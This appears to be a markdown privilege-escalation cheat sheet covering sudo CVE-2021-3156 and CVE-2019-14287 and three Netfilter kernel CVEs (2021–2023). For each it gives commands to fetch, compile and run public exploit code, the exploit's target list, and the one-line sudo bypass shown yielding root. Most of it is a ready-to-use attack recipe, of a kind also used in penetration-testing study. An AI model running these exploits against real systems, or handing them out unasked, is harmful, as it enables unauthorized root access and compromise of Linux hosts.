 # 0-Days
`The Guide`

- [Sudo](#sudo)
  - [usage](#usage)
  - [Sudo policy bypass](#sudo-policy-bypass)
- [Netfilter](#netfilter)

# Sudo
One of the latest vulnerabilities for sudo carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

    1.8.31 - Ubuntu 20.04
    1.8.27 - Debian 10
    1.9.2 - Fedora 33
    and others

To find out the version of sudo, the following command is sufficient:

```bash
sudo -V | head -n1
```
**POC**
```bash
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```
### Usage
```bash
./sudo-hax-me-a-sandwich

** CVE-2021-3156 PoC by blasty <peter@haxx.in>

  usage: ./sudo-hax-me-a-sandwich <target>

  available targets:
  ------------------------------------------------------------
    0) Ubuntu 18.04.5 (Bionic Beaver) - sudo 1.8.21, libc-2.27
    1) Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
    2) Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
  ------------------------------------------------------------

```
### Sudo Policy Bypass
> Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. This vulnerability has the CVE-2019-14287 and requires only a single prerequisite. It had to allow a user in the /etc/sudoers file to execute a specific command.
```bash
sudo -u#-1 id
id
uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

## Netfilter
>Netfilter is a Linux kernel module that provides, among other things, packet filtering, network address translation, and other tools relevant to firewalls. It controls and regulates network traffic by manipulating individual packets based on their characteristics and rules. Netfilter is also called the software layer in the Linux kernel. 
1. 2021 ([CVE-2021-22555](https://github.com/google/security-research/tree/master/pocs/linux/cve-2021-22555)) `
5.10.5-051005-generic`
```bash
wget https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
 gcc -m32 -static exploit.c -o exploit
./exploit
```
2. 2022 ([CVE-2022-25636](https://www.cvedetails.com/cve/CVE-2022-25636/)) `5.13.0-051300-generic`
```bash
git clone https://github.com/Bonfee/CVE-2022-25636.git
cd CVE-2022-25636
make
./exploit
```
Learn [More](https://nickgregory.me/post/2022/03/12/cve-2022-25636/).
3. 2023 ([CVE-2023-32233](https://github.com/Liuk3r/CVE-2023-32233))
```bash
git clone https://github.com/Liuk3r/CVE-2023-32233
cd CVE-2023-32233
gcc -Wall -o exploit exploit.c -lmnl -lnftnl
```
> This vulnerability exploits the so called anonymous sets in `nf_tables` by using the `Use-After-Free` vulnerability in the Linux Kernel up to version `6.3.1`. These `nf_tables` are temprorary workspaces for processing batch requests and once the processing is done, these anonymous sets are supposed to be cleared out (Use-After-Free) so they cannot be used anymore. Due to a mistake in the code, these anonymous sets are not being handled properly and can still be accessed and modified by the program.

The exploitation is done by manipulating the system to use the cleared out anonymous sets to interact with the kernel's memory. By doing so, we can potentially gain root privileges.
